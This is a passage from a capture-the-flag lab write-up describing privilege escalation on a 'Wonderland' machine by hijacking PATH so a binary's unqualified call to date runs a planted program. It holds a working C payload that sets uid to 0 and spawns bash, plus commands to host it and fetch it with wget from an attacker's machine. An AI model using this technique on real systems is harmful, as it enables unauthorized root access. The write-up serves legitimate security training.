 Running the file gives us the following output
![Output of executing the teaParty executable](/writeups/wonderland/teaparty.JPG "teaParty Executable")

What is interesting is it appears to give the exact date and time that the program was run at. This most likely means it is calling the date utility. To double check though I downloaded the file and ran strings on it.

#### Victim Machine

`python3 -m http.server 8080`

#### Attacker machine

`wget http://10.10.242.220/teaParty`

`strings teaParty`

Running strings confimed my suspicion that date was being run with this line

```
Welcome to the tea party!
The Mad Hatter will be here soon.
/bin/echo -n 'Probably by ' && date --date='next hour' -R
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
```

## Exploiting the path

Again we cannot write to the teaParty executable so we have to exploit the part we can influence

date in the program is not correctly called as it does not give an absolute path, this means we can inject our own code into the date program by manipulating the PATH to make linux look there first.

#### Victim machine

1. `cd /home/rabbit`
2. `mkdir bin`
3. `cd bin`
4. `export PATH="/home/rabbit/bin:$PATH"`

#### Attackers machine

5. `vim exploit.c`
6. ```C
   int main() {
    setuid(0);
    setgid(0);
    system("/bin/bash");
    return 0;
   }
   ```
7. `gcc exploit.c -o date -w`
8. `python3 -m http.server 80`

#### Victim Machine

9. `wget http://*attackers-ip*/date`
10. `chmod +x date`
11. `cd ..`
   ```